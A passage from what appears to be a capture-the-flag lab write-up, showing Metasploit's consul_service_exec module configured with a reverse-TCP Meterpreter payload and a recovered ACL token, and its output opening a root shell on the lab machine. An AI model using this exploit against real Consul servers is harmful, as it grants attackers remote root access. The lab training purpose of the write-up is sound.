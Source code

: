 ```
   SRVPORT    8080                                  yes       The local port to listen on.
   SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                     yes       The base path
   URIPATH                                          no        The URI to use for this exploit (default is random)
   VHOST                                            no        HTTP server virtual host

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Linux

View the full module info with the info, or info -d command.

```

The important things to set are the `ACL_TOKEN` (recovered above), the `RHOSTS` (set to localhost tunnel), and the payload. Running this gives a shell as root:

```

msf6 exploit(multi/misc/consul_service_exec) > run
                              
[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Creating service 'SpSyWPB'
[*] Service 'SpSyWPB' successfully created.
[*] Waiting for service 'SpSyWPB' script to trigger
[*] Sending stage (1017704 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.183:46010) at 2023-01-26 18:02:45 +0000
[*] Removing service 'SpSyWPB'
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > getuid 
Server username: root

```
